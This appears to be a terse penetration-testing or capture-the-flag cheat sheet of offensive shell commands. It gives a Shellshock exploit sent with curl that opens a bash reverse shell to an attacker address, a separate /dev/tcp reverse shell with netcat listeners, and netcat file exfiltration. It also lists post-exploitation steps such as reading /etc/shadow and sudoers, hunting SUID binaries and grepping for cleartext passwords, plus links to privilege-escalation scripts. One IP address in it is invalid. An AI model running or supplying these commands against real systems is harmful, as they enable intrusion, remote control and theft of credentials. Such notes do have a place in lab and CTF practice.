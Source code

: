 __shellshock__ (victim)

curl http://192.168.8.805/cgi-bin/test.cgi -H 'User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.0.107/33444 0>&1'

__shellshock__ (host)

nc -lvnp 33444

__send file through netcat(listener)__

nc -lvnp port > flag.txt

__send file thru netcat (sender)__

nc -w 3 listener ip port < flag.txt

__python server__

( python3 -m http.server 192.168.0.104:8080 , python -m SimpleHTTPServer 8000 )

__interactive shell__

(python -c "import pty;pty.spawn('/bin/bash')")

__forwarding shell(victim)__

(bash -i >& /dev/tcp/192.168.0.104/9999 0>&1)

__forwarding shell(host)__

(nc -lvnp 9999)

__change from non interactive to interactive__

(*echo $SHELL (variable yg dh diset)*echo $TERM*export SHELL=/bin/bash*export TERM=xterm-256color*stty -a*stty raw -a)

__system/user info__

(uname -a, env, whoami, history, pwd -> searchsploit)

__check sudoers__ 

(sudo -l, cat /etc/sudoers)

__other super users__

( grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}')

__network info__

( ifconfig -a, netstat -antup, lsof -i)

__enum serv/softw__

( ps aux, ps -ef)

__SUID files__

(find / -perm -u=s -type f 2>/dev/null)

__pw hashes__

(cat /etc/shadow)

__check cleartxt cred__

(find . -type f -maxdepth 4 | xargs grep -i "password")

__reference__

_http://www.securitysift.com/download/linuxprivchecker.py_

_https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh_

_https://gtfobins.github.io/_

